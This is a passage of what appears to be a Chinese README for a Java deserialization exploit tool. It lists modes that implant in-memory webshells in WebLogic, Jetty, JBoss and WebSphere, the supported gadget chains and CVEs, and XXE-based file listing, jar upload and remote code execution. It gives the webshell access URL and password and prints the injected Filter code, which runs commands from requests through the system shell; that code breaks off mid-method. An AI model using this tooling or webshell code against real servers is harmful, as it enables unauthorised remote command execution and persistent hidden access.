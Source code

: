   * ```WeblogicMemshell1```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell2```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```，**推荐**使用此方式
  * ```JettyMemshell```: 用于植入```Jetty内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```JBossMemshell```: 用于植入```JBoss内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* 目前支持的所有 ```GadgetType``` 为
  * ```URLDNS```
  * ```CommonsBeanutils1```  
  * ```CommonsBeanutils2```
  * ```CommonsCollectionsK1```
  * ```CommonsCollectionsK2```
  * ```C3P0```
  * ```Jdk7u21```
  * ```Jre8u20```
  * ```CVE_2020_2551```
  * ```CVE_2020_2883```
* ```WebsphereBypass``` 中的 3 个动作：
  * ```list```：基于```XXE```查看目标服务器上的目录或文件内容
  * ```upload```：基于```XXE```的```jar协议```将恶意```jar包```上传至目标服务器的临时目录
  * ```rce```：加载已上传至目标服务器临时目录的```jar包```，从而达到远程代码执行的效果（这一步本地未复现成功，抛```java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.```异常，有复现成功的小伙伴麻烦指导下）

## ```内存shell```说明
* 采用动态添加 ```Filter/Controller```的方式，并将添加的```Filter```移动至```FilterChain```的第一位
* ```内存shell``` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
* ```Basic cmd shell``` 的访问方式为 ```/anything?type=basic&pass=[cmd]```
* ```Behinder shell``` 的访问方式需要修改```冰蝎```客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 ```X-Options-Ai``` 头部，密码为```rebeyond```

植入的 Filter 代码如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
```